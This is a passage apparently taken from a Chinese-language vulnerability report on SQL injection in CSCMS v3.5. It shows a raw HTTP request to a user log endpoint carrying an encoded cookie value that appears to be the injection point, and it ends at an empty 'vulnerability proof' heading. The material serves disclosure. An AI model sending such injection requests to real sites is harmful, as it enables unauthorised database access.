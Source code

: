 替换其他地方就构成注入。

```
GET /cscms_v3.5_utf8/index.php/user/ulog/index/user HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: http://**.**.**.**/cscms_v3.5_utf8/index.php/user/

Cookie: cs_id=L8kxDzdqKNy9%2F2Qs0g 
```

![](img/22153809fdb8fe85b53514df19d5d85bd0d550bb.jpg)

## 漏洞证明
